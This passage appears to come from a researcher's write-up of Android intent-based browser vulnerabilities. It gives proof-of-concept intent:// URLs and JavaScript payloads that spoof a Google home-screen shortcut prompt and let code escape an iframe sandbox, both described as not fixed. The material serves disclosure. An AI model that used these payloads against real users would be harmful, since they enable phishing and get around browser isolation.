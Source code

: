 Video PoC: <https://www.youtube.com/watch?v=FnarD8RX4Ys>  
`intent://www.google.com/hsi?name=Chrome&icon=https://ssl.gstatic.com/shortcuts/android/home/v1/192px/weather_g_badged.png&ve=145829&hv=1&dest=1&source=homescreen_shortcut&query=https://ndev.tk#Intent;scheme=https;package=com.google.android.googlequicksearchbox;end`

To make this attack more convincing google play services are used so the victim can see the url bar change to "google.com" before the prompt is shown.

The prompt shows an attacker controlled name and icon with no origin provided.

```js
onclick = () => {
  location.href =
    'intent://search.app.goo.gl/?link=https://www.google.com/hsi?name%3DChrome%26icon%3Dhttps://ssl.gstatic.com/shortcuts/android/home/v1/192px/weather_g_badged.png%26ve%3D145828%26hv%3D1%26dest%3D1%26source%3Dhomescreen_shortcut%26query%3Dhttps%3A%2F%2Fndev.tk%23Intent;scheme%3Dhttps;package%3Dcom.google.android.googlequicksearchbox;end&apn=com.google.android.googlequicksearchbox#Intent;package=com.google.android.gms;scheme=https;end;';
  location.href = 'https://www.google.com';
};
```

# Iframe sandbox allow-popups-to-escape-sandbox bypass via intent (Asked, Not fixed)

```js
Frame = document.createElement('iframe');
Frame.sandbox = 'allow-scripts allow-popups';
```

In that sandboxed iframe an attacker would do:

```js
onclick = () => {
  location =
    'intent://www.google.com/gasearch?q=https://example.org#Intent;scheme=https;package=com.google.android.googlequicksearchbox;end';
};
```

Or if you don't like the google app,

```js
onclick = () => {
  location =
    'intent://example.org#Intent;package=com.google.android.gms;action=com.google.firebase.dynamiclinks.VIEW_DYNAMIC_LINK;scheme=https;end';
};
```

"allow-popups" means "allow-top-navigation-to-custom-protocols" It's just a bit too easy to start abusing by, say, starting a file download.
<https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy/sandbox>

# Controlling Google assistant (Asked, Not fixed)
